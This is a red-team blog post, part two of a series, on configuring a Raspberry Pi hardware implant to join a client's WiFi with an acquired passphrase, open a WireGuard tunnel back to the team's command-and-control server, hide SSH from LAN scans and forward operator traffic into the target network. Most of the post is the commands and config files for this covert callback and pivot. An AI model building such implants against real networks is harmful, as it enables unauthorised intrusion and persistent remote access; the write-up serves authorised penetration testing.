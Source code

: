 ```yaml
---
title: "Configuring the Software for Our Hardware Implant"
date: 2023-10-02T16:48:00-04:00
draft: false # Set 'false' to publish
description: "Software configuration for secure C2"
categories:
- Red Team
tags:
- Software
- Initial Access
- WiFi
---
```


This is the second post in a multi-part series on creating a hardware implant for initial access. Stay tuned for updates!

---

### Recap
In the last post we detailed the rationale behind why we were building a hardware implant in the first place and the 
hardware we used to construct the implant. If you haven't read it, check it out [here]({{< ref "/posts/rat-series/hardware" >}}).

### Requirements
Since this project stems from a real world engagement we were involved with, it was crucial that the traffic between our implant
and our infrastructure was secured as it egressed the client network. For this we turned to the following technologies:
- Wireguard to securely connect back to our infrastructure
- SSH to enable secure operator connections to the implant itself
- Raspberry Pi OS as a platform for our implant

### The Software
Wireguard is a light-weight, modern VPN technology that is simple to setup and secure to boot. Additional information can
be found on its [homepage](https://www.wireguard.com).

SSH provides a login shell that is cryptographically secured, perfect for operator interaction on the implant. Additionally,
using SSH tunneling allowed our operators to set up corresponding tunnels and use `proxychains` to tunnel commands through
the implant to evaluate our client's network.

Raspberry Pi OS, formerly known as Raspbian, is a Debian-based ARM operating system for Raspberry Pi SBCs. Additional
information can be found on the [homepage](https://www.raspberrypi.com/software/).

The question though, is how can we tie these technologies together to enable remote access to the target network?

#### The Process
At this point, we had the client's WiFi PSK, a secure connection back to our infrastructue planed out, and a way for our
operators to interact with the target network via the implant. We just needed to configure everything to work together.

##### WiFi
Starting with WiFi, we needed to configure the OS to automatically connect to the target's WiFi network (and then 
connect back to us).

By default, Raspberry Pi OS utilizes the `wpa_supplicant` service to connect to available networks. Because we knew the 
client's PSK and SSID, we could pre-configure the Pi to connect to the target network utilizing the `wpa_passphrase` command.

```bash
aermored@implant:~$ wpa_passphrase CLIENTSSID "The acquired psk"
 network={
         ssid="CLIENTSSID"
         #psk="The acquired psk"
         psk=406c6f5825ffc2fef9f0e4d72f44c863aac8226b629042fceb468aa67c8ac1da
 }
```

The output of this command can be appended to the `/etc/wpa_supplicant.conf` file to cause the Pi to automatically associate
with and connect to the target network on boot-up (we additionally added our connection details for testing purposes).
Perfect!

##### Wireguard
Next up, we needed to ensure that when powered on, the implant would establish a Wireguard VPN back to our C2 infrastructure.

We first did an `apt update` and an `apt install wireguard` to grab the relevant Wireguard packages for Raspberry Pi OS.
After this, we could run the following one-liner to generate the necessary Wireguard keypair:

```bash
aermored@implant:~$ umask 077; wg genkey | tee privatekey | wg pubkey > publickey
```

This command first sets the creation mask of the files to 600 with `umask` and then generates a random Wireguard private 
key. The output of this command is piped into `tee` to write the private key to disk as `privatekey` in the current 
working directory and pipe the output back into `wg` to generate a public key based on a private key (that was piped in
in our case). The result of this command should leave two files in the current working directory:

```bash
aermored@implant:~$ ls -l
 total 8
 -rw------- 1 red red 45 Sep 17 18:13 privatekey
 -rw------- 1 red red 45 Sep 17 18:13 publickey
```

```bash
aermored@implant:~$ cat privatekey
 CO6y+c+0sGHIrQU9AIaM6v1Bb4HKWlsh4HEYGYSLvmM=
```

> Keep the private key safe! This is an example key for the sake of this post.

```bash
aermored@implant:~$ cat publickey
 KTd2opaUpRGaZkW2pxwWF6RnPx6anGYGFeu6GQJk6gU=
```

Now that we had the required Wireguard credentials, we could configure the Pi as a Wireguard client to connect back to our
C2 infrastructure.

To do this, we created a Wireguard configuration file at `/etc/wireguard/wg0.conf`. The contents are below:
```bash
[Interface]
 PrivateKey = CO6y+c+0sGHIrQU9AIaM6v1Bb4HKWlsh4HEYGYSLvmM= (This is the output of the privatekey file)
 Address = 10.0.0.1/24 (This should reflect the configuration on the Wireguard server)

 [Peer]
 PublicKey = <contents-of-server-publickey> (This comes from the Wireguard server's public key)
 AllowedIPs = 0.0.0.0/0
 Endpoint = "server public ip and ListenPort" (Ex: 1.2.3.4:51820)
 PersistentKeepalive = 30
```

Once this is configured, we could run `wg-quick up wg0` to bring up the Wireguard interface. If everything is configured
correctly, we should see the following:
```bash
aermored@implant:~# wg show
 interface: wg0
   public key: KTd2opaUpRGaZkW2pxwWF6RnPx6anGYGFeu6GQJk6gU=
   private key: (hidden)
   listening port: 37849
   fwmark: 0xca6c

 peer: <contents-of-server-publickey> (This comes from the Wireguard server's public key)
   endpoint: 1.2.3.4:51820
   allowed ips: 0.0.0.0/0
   latest handshake: 1 second ago
   transfer: 1.43 KiB received, 936 B sent
   persistent keepalive: every 30 seconds
```

Great! Looks like the Wireguard interface is connected to our infrastructure. Lastly for the Wireguard portion, we need 
to enable the service at boot-up. To do this, we run the following:
```bash
aermored@implant:~# systemctl enable wg-quick@wg0.service
 Created symlink /etc/systemd/system/multi-user.target.wants/wg-quick@wg0.service → /etc/systemd/system/wg-quick@.service.
```
We still have a few more steps to complete  prior to deploying the implant against our target though.

##### SSH
With the Wireguard tunnel established, we needed to ensure that SSH was only listening on the Wireguard IP we configured.
This ensures that anyone at our client couldn't potentially scan the LAN IP of our implant and see that it was listening
on port 22 which might raise some suspicion. 

To do this is straightforward: in `/etc/ssh/sshd_config` we simply change
the default `ListenAddress 0.0.0.0` to `ListenAddress 10.0.0.1` and restart the `ssh` service with a `systemctl restart 
ssh.service` command. 

#### Final steps
Our implant should automatically connect to the target network on boot-up, start the Wireguard interface, and finally
start SSH listening on the Wireguard IP at this point, but we need to guarantee that everything is started in the correct
order otherwise we won't be able to connect.

To do this, we only need to change the `wg-quick@.service` definition:
```bash
aermored@implant:~# systemctl edit --full wg-quick@.service

 [Unit]
 Description=WireGuard via wg-quick(8) for %I
 After=network-online.target nss-lookup.target
 Wants=network-online.target nss-lookup.target
 ...
```

We just need to add a `Before` directive to ensure that the `wg-quick@.service` starts before the `ssh.service`
```bash
[Unit]
 Description=WireGuard via wg-quick(8) for %I
 Before=ssh.service (Add this line to cause Wireguard to come up before ssh)
 After=network-online.target nss-lookup.target
 Wants=network-online.target nss-lookup.target
```

Additionally, we need to ensure the implant can forward traffic on behalf of our operators. We can accomplish this by
running the following command:
```bash
aermored@implant:~# sed -i "s/#net.ipv4.ip_forward=1/net.ipv4.ip_forward=1/g" /etc/sysctl.conf && sysctl -p
```

This will enable IP forwarding persistently by enabling the required setting in the `/etc/sysctl.conf` file and then setting
the running value to `1`.

With that completed, we reboot the implant and try to log into the Wireguard IP...
```bash
red in ~ λ ssh aermored@10.0.0.1
 aermored@10.0.0.1's password:
 Linux implant 6.1.21+ #1642 Mon Apr  3 17:19:14 BST 2023 armv6l

 The programs included with the Debian GNU/Linux system are free software;
 the exact distribution terms for each program are described in the
 individual files in /usr/share/doc/*/copyright.

 Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
 permitted by applicable law.
 Last login: Tue Sep 19 16:46:20 2023 from 192.168.1.69
 aermored@implant:~ $
```

Success! Now to deploy it against our client. We'll cover how we used the implant in the next post in the series.

---

Other posts in the hardware implant series:
- [Part 1: Hardware Implants as an Initial Access Vector]({{< ref "/posts/rat-series/hardware" >}})
- [Part 2: Configuring the Software for Our Hardware Implant]({{< ref "/posts/rat-series/software" >}})